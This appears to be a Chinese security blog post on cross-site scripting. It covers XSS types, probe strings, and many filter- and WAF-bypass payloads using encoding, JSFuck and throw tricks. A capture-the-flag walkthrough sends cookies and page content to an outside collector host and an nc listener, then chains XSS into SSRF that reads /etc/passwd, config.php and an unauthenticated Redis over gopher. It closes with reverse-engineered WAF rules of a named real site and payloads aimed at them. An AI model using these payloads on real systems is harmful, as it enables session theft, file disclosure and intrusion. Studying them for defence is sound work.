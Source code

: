 ```yaml
---
layout:     post
title:      BypassWaf_xss
date:       2018-12-28
author:     Wh0ale
header-img: img/jade_by_wlop-d9n5wvp.jpg
catalog: true
tags:
    - xss
---
```


![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyp4d6xll2j20ye0dy403.jpg)

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fys1velc7qj210y0w6acr.jpg)

# 0x01 什么是XSS漏洞

XSS全称跨站脚本(Cross Site Scripting)，为不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故缩写为XSS，比较合适的方式应该叫做跨站脚本攻击。

跨站脚本攻击是一种常见的web安全漏洞，它主要是指攻击者可以在页面中插入恶意脚本代码，当受害者访问这些页面时，浏览器会解析并执行这些恶意代码，从而达到窃取用户身份/钓鱼/传播恶意代码等行为。

## 一、 XSS分类

> 反射型（非持久型）
> 存储型（持久型）
> DOM型
> 不常见的XSS:
> mXSS 突变型XSS
> UXSS 通用型XSS
> Flash XSS
> UTF-7 XSS
> MHTML XSS
> CSS XSS
> VBScript XSS

**存储型**

存储型XSS也叫持久型XSS，存储的意思就是Payload是有经过存储的，当一个页面存在存储型XSS的时候，XSS注入成功后，那么每次访问该页面都将触发XSS。

**反射型**

反射型XSS也叫非持久型XSS，最常见的是Payload是构造在网址的某个GET参数的值里。

**DOM 型**

基于DOM的XSS有时也称为type0XSS。当用户能够通过交互修改浏览器页面中的DOM(DocumentObjectModel)并显示在浏览器上时，就有可能产生这种漏洞，从效果上来说它也是反射型XSS。通过修改页面的DOM节点形成的XSS，称之为DOMBasedXSS。

## 二、 xss bypass

### 检测过滤情况

用于有字符限制的短探测器
 `'';!--"<XSS>=&{()}`
 完全版探测器
 `';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>`

### 观察输出位置

#### 1.标签之间

```
模型： <div>[xss]</div> payload： <script>alert(1)</script>或者<img src=1 onerror=alert(1)>
这些标签有：
<a> <p> <img> <body> <button> <var> <div> <object> <input> <select> <keygen> <frameset>  <embed> <svg> <video> <audio>
       
自带HtmlEncode（转义）功能的标签(RCDATA)，这是插入的javascript不会被执行，除非我们闭合掉它们。
<textarea></textarea> <title></title> <iframe></iframe> <noscript></noscript> <noframes></noframes> <xmp></xmp> <plaintext></plaintext> 其他：<math></math>也不行
```

#### 2.js标签之间

在该位置，空格被过滤，可用/**/代替空格。输出在注释中，通过换行符%0a %0d使其逃逸出来。

##### (1)不在字符串内

判断<>/是否被过滤。如果没有，那么直接插入就可以。

```JavaScript
<script>
[output]
</script>
payload：</script><script>alert(1)</script>
```

##### (2)在字符串中

此时需要闭合字符串，并保证插入的JS代码符合语法规范。

```
<script>
Var x="Input";
</script>
```

 input是输出点，我们首先要闭合双引号，才能保证XSS成功。如果我们无法闭合包括字符串的引号（引号被转义），就很难利用，除非存在两个输出点或宽字节。(详见参考资料)

#### 3.输出在HTML属性内

##### (1)文本属性中

例如：`<input value="输出"> 、 <img onload="...[输出]..."> ，再比如 <body style="...[输出]...">`

**无引号包裹，直接添加新的事件属性。**

**有引号包括。首先测试引号是否可用，可用则闭合属性之后添加新的事件属性。**

> HTML的属性，如果被进行HTML实体编码(形如'&#x27)，那么HTML会对其进行自动解码，从而我们可以在属性里以HTML实体编码的方式引入任意字符，从而方便我们在事件属性里以JS的方式构造payload。当然，也可以闭合属性后，然后再执行脚本。

##### (2)src/href/action/xlink:href/autofocus/content/data 等属性

直接使用伪协议绕过。

```
javascript 伪协议： <a href=javascript:alert(2)>test</a>
data 协议执行 javascript： <a href=data:text/html;base64,PHNjcmlwdD5hbGVydCgzKTwvc2NyaXB0Pg==>test</a>(Chrome被拦截，Firefox可以)
urlencode 版本： <a href=data:text/html;%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%2829%29%3C%2F%73%63%72%69%70%74%3E>(测试未通过)
不使用 href 的另外一种组合来执行 js： <svg><a xlink:href="javascript:alert(14)"><rect width="1000" height="1000" fill="white"/></a></svg>（均可） 或者： 
<math><a xlink:href=javascript:alert(1)>1</a></math>(Chrome不可，Firefox可以)
```

##### (3)on*事件中

 插入合乎逻辑的JS代码即可。也可以使用伪协议。

```JavaScript
onload 
onclick
onunload 
onchange 
onsubmit 
onreset 
onselect 
onblur 
onfocus 
onabort 
onkeydown 
onkeypress 
onkeyup 
ondbclick 
onmouseover 
onmousemove 
onmouseout 
onmouseup 
onforminput 
onformchange 
ondrag 
ondrop
```

### 绕过waf

**单次过滤规则绕过：**`<scr<script>ipt>`
**大小写绕过：**<sCript>
**alert绕过：**可以尝试prompt和confirm
**没有斜杠：**`<IMG SRC=javascript:alert('XSS')>`
**空格被过滤：**`<img/src=""onerror=alert(2)>` `<svg/onload=alert(2)></svg>`
**长度限制时：**
 (1)`<q/oncut=alert(1)>`
 (2)

```
<script>z=’document.’</script> <script>z=z+’write(“‘</script> <script>z=z+’<script’</script> <script>z=z+’ src=ht’</script> <script>z=z+’tp://ww’</script>
<script>z=z+’w.shell’</script> <script>z=z+’.net/1.’</script> <script>z=z+’js></sc’</script>
<script>z=z+’ript>”)’</script> <script>eval_r(z)</script>
```

单引号及双引号被过滤情况：`<script>alert(/jdq/)</script> //用双引号会把引号内的内容单独作为内容 用斜杠，则会连斜杠一起回显`
 **javascript伪协议：**

```JavaScript
<a href="javascript:alert(/test/)">xss</a>
<iframe src=javascript:alert('xss');height=0 width=0 /><iframe>利用iframe框架标签
```

**畸形payload：**

``` 
<IMG """><SCRIPT>alert("XSS")</SCRIPT>">
```

**括号被过滤,可以使用throw来抛出数据**

```JavaScript
<a onmouseover="javascript:window.onerror=alert;throw 1">2</a>
<img src=x onerror="javascript:window.onerror=alert;throw 1">
<body/onload=javascript:window.onerror=eval;throw'=alert\x281\x29';>
```

**当=();:被过滤时：**

过滤某些关键字（如：javascript） 可以在属性中的引号内容中使用空字符、空格、TAB换行、注释、特殊的函数，将代码行隔开。比如在使用<iframe src="javascript:alert(1253)" height=0 width=0 /><iframe>时，可以用回车、Tab键将src中的内容隔开，回车的url编码为%0a,%0b;

 **拼凑法：**① 双写绕过；② 使用js定义变量z=scri, z+pt=script; ③ 两处输出点

```
<scri<!-- 第二处-->pt>;
```

无法使用href：

```JavaScript
<a onmouseover="alert(document.cookie)">xxs link</a>
在chrome下，其回补全缺失的引号。因此，也可以这样写：
<a onmouseover=alert(document.cookie)>xxs link</a>
```

### 编码

JS函数（如eval，settimeout）还有就是`href= action= formaction= location= on*= name= background= poster= src= code=`这些地方，可以配合编码。此外，data属性可以base64编码。
 1.js16进制

```JavaScript
<script>eval(“js+16进制加密”)</script> <script>eval("\x61\x6c\x65\x72\x74\x28\x22\x78\x73\x73\x22\x29")</script> 编码要执行的语句↓
Alert(“xss”)
```

2.js unicode

```JavaScript
<script>eval("unicode加密")</script> //js unicode加密 解决alert()被过滤
<script>eval("\u0061\u006c\u0065\u0072\u0074\u0028\u0022\u0078\u0073\u0073\u0022\u0029")</script>
```

3.String.fromCharCode函数（不需要任何引号，必须函数内）

```JavaScript
<script>eval(String.fromCharCode编码内容))</script> <script>eval(String.fromCharCode(97,108,101,114,116,40,34,120,115,115,34,41,13))</script>
```

4.jsfuck版本

```JavaScript
<script>alert((+[][+[]]+[])[++[[]][+[]]]+([![]]+[])[++[++[[]][+[]]][+[]]]+([!![]]+[])[++[++[++[[]][+[]]][+[]]][+[]]]+([!![]]+[])[++[[]][+[]]]+([!![]]+[])[+[]])</script>
```

>　　这是一个黑客奇葩的想法。
>
>　　在黑客行为中，你的js代码可能被关键词检测，于是考虑躲避关键词检测的想法，例如 eval等关键词。
>
>　　1、想了各种方法来规避这个检测。
>
>　　2、把方法写成通用的程序。
>
>　　3、把包含的字符做到极致，最后只剩下 ()+[]!  这六个字符。
>
> 这段代码来着于这个网站转码得到：<http://www.jsfuck.com/>   
>
>这里是它的百科，感兴趣可以去了解下：<https://en.wikipedia.org/wiki/JSFuck>
>
>1、脚本注入时防止过滤
>
>2、一定程度加密关键代码（生成代码很长，不适合加密大量代码。只能一定程度上加密，不能依赖）
>
>3、装逼用（我最中意的用途）
>
>结论：转换后本质依然是javascript，通过javascript的一些性质来生成，具体实现可以看这里的代码<https://github.com/aemkei/jsfuck>

5.HTML编码

```
<img src='1' onerror='aler&#x0074;(1)'>
```

6.base64编码（仅data支持）

```
     <object data="data:text/html;base64,PHNjcmlwdCBzcmM9aHR0cDovL3QuY24vUnE5bjZ6dT48L3NjcmlwdD4="></object>
     格式：
     Data:<mime type>,<encoded data>
     Data //协议
     <mime type> //数据类型
     charset=<charset>  //指定编码
     [;base64] //被指定的编码
     <encoded data> //定义data协议的编码
     特点：不支持IE
```



# 0x02 非基于Web的XSS注射

**PowerDNS Recursor** 

在我们的演讲中，Chris提到他在一个流行的DNS软件中发现了一个不常见的XSS，所以我决定从它开始强调网络并不总是唯一的攻击媒介。

PowerDNS Recursor是一款高端，高性能的解析名称服务器，可为至少1亿用户的DNS解析提供支持。Recursor是两个名称服务器产品之一，其主要目标是充当解析DNS服务器。


一个[详细的演练](https://blog.fortinet.com/2017/12/02/powerdns-recursor-html-script-injection-vulnerability-a-walkthrough)解释它是如何可能通过使用命令行工具挖一个DNS查询来注入XSS有效载荷：

![img](https://www.websec.ca/img/three-non-web-based-xss-injections/dig.png)



而这又在Web UI中呈现：

![img](https://www.websec.ca/img/three-non-web-based-xss-injections/powerdns.png)



**Symantec SSL Toolbox**这是我在三年前在Symantec的SSL证书测试程序中找到并报告的已修复漏洞。此[免费在线服务](https://cryptoreport.websecurity.symantec.com/checker/)用于从给定URL的x509 SSL证书中提取和显示值，信任其内容，而无需清理字段中的数据。


因此，我在不同的字段中创建了一个值为“<script> alert（document.cookie）; </ script>”的SSL证书，并将其安装在Web服务器的前面：

![img](https://www.websec.ca/img/three-non-web-based-xss-injections/symantec.png)



分析此类证书的结果是正在执行的JavaScript代码：

![ximg](https://www.websec.ca/img/three-non-web-based-xss-injections/symantec-xss.png)



**RATS（安全性粗略审计工具）**由CERN计算机安全部门开发，[RATS](https://security.web.cern.ch/security/recommendations/en/codetools/rats.shtml)是一个非常好的静态代码分析工具。我喜欢它并且已经使用它多年了。然而，最后一个版本可以追溯到2013年12月，现在可能没有维护，但不确定。


去年我在火车上很无聊，发现这个无用的XSS。RATS收到一个包含源代码的文件夹，并创建一个包含结果的HTML报告，其中还包括所分析文件的名称，因此攻击向量非常明显。我在其名称中创建了一个包含JavaScript代码的文件：

![img](https://www.websec.ca/img/three-non-web-based-xss-injections/rats.png)



分析之后，注入的JavaScript将在报告中呈现：

![img](https://www.websec.ca/img/three-non-web-based-xss-injections/rats-xss.png)



# 0x03 CTF赛题

[XSS的威力：从XSS到SSRF再到Redis](https://www.anquanke.com/post/id/156377)

## **1.xssme**

payload：

```
<svg/onload="document.location='http://vps_ip:23333'">
```

vps：

```
nc -l -vv -p 23333
```

收获flag

```
<svg/onload="document.location='http://ugelgr.ceye.io/?'+document.cookie">
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fypr96reo5j20jc07ojst.jpg)

解码后得到

```
PHPSESSID=9crkuhdqs9b1jkslebpieprr86; FLAG_XSSME=FLAG{Sometimes, XSS can be critical vulnerability <script>alert
```



## **2.xssrf leak**

xss去本地访问，再将页面内容打出来

```JavaScript
<svg/onload="document.location='http://ugelgr.ceye.io/?'+btoa(document.body.innerHTML)">
```

**编码绕过**

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fypreygzbrj20lz0a1dmd.jpg)

**解码后保存到本地html里打开**

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyprfv1be7j20re0lcmyx.jpg)

发现多了一个send request的功能，跟过去看代码发现多了一个send request的功能，跟过去看代码
[![img](https://p5.ssl.qhimg.com/t016761eb473b221e42.png)](https://p5.ssl.qhimg.com/t016761eb473b221e42.png)

没错，是多了一个request.php
那么结合题目意思，应该是有ssrf，我想应该就是利用这里的request.php了吧
那么继续去读这个页面的html

```html
<svg/onload="
xmlhttp=new XMLHttpRequest();
xmlhttp.onreadystatechange=function()
{
    if (xmlhttp.readyState==4 && xmlhttp.status==200)
    {
        document.location='http://vps_ip:23333/?'+btoa(xmlhttp.responseText);
    }
}
xmlhttp.open("GET","request.php",true);
xmlhttp.send();
">
```



经过编码后发送，得到
![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyprjod9cbj21e6076n0h.jpg)同样解码后发现代码
![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyprkntdnjj21900h2jsr.jpg)应该xss的点就是在这里了
于是尝试file协议读`/etc/passwd`

```html
<svg/onload="
xmlhttp=new XMLHttpRequest();
xmlhttp.onreadystatechange=function()
{
    if (xmlhttp.readyState==4 && xmlhttp.status==200)
    {
        document.location='http://vps_ip:23333/?'+btoa(xmlhttp.responseText);
    }
}
xmlhttp.open("POST","request.php",true);
xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");
xmlhttp.send("url=file:///etc/passwd");
">
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyprlccny8j2178182k0b.jpg)发现成功读取了`/etc/passwd`
那么我们回想到最初的文件

```
User-agent: *
Disallow: /config.php
Disallow: /you/cant/read/config.php/can/you?
Disallow: /backup.zip
```

于是直接读config.php

```html
<svg/onload="
xmlhttp=new XMLHttpRequest();
xmlhttp.onreadystatechange=function()
{
    if (xmlhttp.readyState==4 && xmlhttp.status==200)
    {
        document.location='http://vps_ip:23333/?'+btoa(xmlhttp.responseText);
    }
}
xmlhttp.open("POST","request.php",true);
xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");
xmlhttp.send("url=file:///var/www/html/config.php");
">
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyprly0fcwj21b012en16.jpg)cool，于是我们拿到了第二个flag

```
FLAG{curl -v -o flag --next flag://in-the.redis/the?port=25566&good=luck}
```

## **3. xssrf redis**

只剩下最后一步打redis了

这里很容易就想到了gopher未授权访问打redis
上一题提示我们redis再25566端口，于是我们尝试访问一下

```html
<svg/onload="
xmlhttp=new XMLHttpRequest();
xmlhttp.onreadystatechange=function()
{
    if (xmlhttp.readyState==4 && xmlhttp.status==200)
    {
        document.location='http://vps_ip:23333/?'+btoa(xmlhttp.responseText);
    }
}
xmlhttp.open("POST","request.php",true);
xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");
xmlhttp.send("url=gopher://127.0.0.1:25566/_info%250a_quit");
">
```

于是愉快的打出信息，发现果然是未授权访问
![](https://ws1.sinaimg.cn/large/b6de3d7dly1fypro47h7hj20w211o0vi.jpg)那么看看key有哪些

```
xmlhttp.send("url=gopher://127.0.0.1:25566/_KEYS%2520*%250a_quit");
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyprovnhvtj20nq0vm75o.jpg)发现了flag
然后我们尝试读取

```
xmlhttp.send("url=gopher://127.0.0.1:25566/_get%2520flag%250a_quit");
```

发现报错
![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyprpnzlqij21020eaab5.jpg)发现类型错误了
那我们看看类型

```
xmlhttp.send("url=gopher://127.0.0.1:25566/_type%2520flag%250a_quit");
```

[![img](https://p3.ssl.qhimg.com/t01c56b570a1f671daa.png)](https://p3.ssl.qhimg.com/t01c56b570a1f671daa.png)

发现是个list
那我们看看长度

```
xmlhttp.send("url=gopher://127.0.0.1:25566/_llen%2520flag%250a_quit");
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyprrfqsanj20qg0kut9v.jpg)发现是53
那我们可以愉快的读取list了

```
xmlhttp.send("url=gopher://127.0.0.1:25566/_lrange%2520flag%25200%252053%250a_quit");
```

[![img](https://p0.ssl.qhimg.com/t016b256ff57a040832.png)](https://p0.ssl.qhimg.com/t016b256ff57a040832.png)

我们把它拼接起来

[![img](https://p2.ssl.qhimg.com/t01584c35dc674b052a.png)](https://p2.ssl.qhimg.com/t01584c35dc674b052a.png)so cool
得到最后的flag

```
FLAG{Rediswithout authentication is easy to exploit}
```



# 0x04 B站waf

xss探针

```javascript
';`"><aaa bbb=ccc>ddd<aaa/>
aaa</script>bbb<script>ccc
```

payload

```javascript
<img src=x onerror=alert(1)>
<script>alert(1)<script>
top['alert'](1)
top['al'+'ert'](1)
```

至今已发现的b站waf规则总结：

```javascript
on\w+=(?:prompt|alert|confirm){1}\(\w+\)

<[^>]*\s+on\w+=(?:prompt|alert|confirm){1}\(\w+  

<script>[^`]*document\[\w+\]

<script>[^`]*document\.\w+

<script>\w+\.cookie

<script\s(.*\s)?src(=\w+)?>

<a\s(.*\s)?href=javascript:.*>

<img\s[^>]*on\w+=\w+\[\w*\]\(\w*\)

<img\s[^>]*on\w+=`\w*`.*
```





































